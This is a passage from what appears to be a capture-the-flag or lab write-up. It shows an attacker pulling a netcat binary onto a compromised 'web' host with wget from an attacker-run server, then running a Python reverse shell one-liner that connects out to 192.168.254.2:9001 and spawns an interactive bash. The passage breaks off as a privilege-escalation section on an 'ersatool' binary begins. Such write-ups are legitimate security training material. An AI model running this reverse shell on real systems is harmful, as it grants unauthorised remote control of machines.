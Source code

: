 ![Untitled%2035.png](Untitled%2035.png)

Now we'll send netcat to the host web and then we'll running our reverse shell

```bash
www-data@web:/tmp$ wget [http://172.30.0.9:8000/nc.traditional](http://172.30.0.9:8000/nc.traditional)
--2021-07-07 17:55:05--  [http://172.30.0.9:8000/nc.traditional](http://172.30.0.9:8000/nc.traditional)
Connecting to 172.30.0.9:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 34952 (34K) [application/octet-stream]
Saving to: ‘nc.traditional’

nc.traditional        100%[=======================>]  34.13K  71.0KB/s    in 0.5s

2021-07-07 17:55:07 (71.0 KB/s) - ‘nc.traditional’ saved [34952/34952]
```

## Reverse shell

```bash
/usr/bin/python3.6 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.254.2",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

Running the payload above, we've got a shell on host PKI

![Untitled%2036.png](Untitled%2036.png)

# Privilege Escalation

Trying to verify what is the ersatool that showed off on index.html from HTTP service on pki host, we could see that this file is an ELF 64-bit, a Linux binary

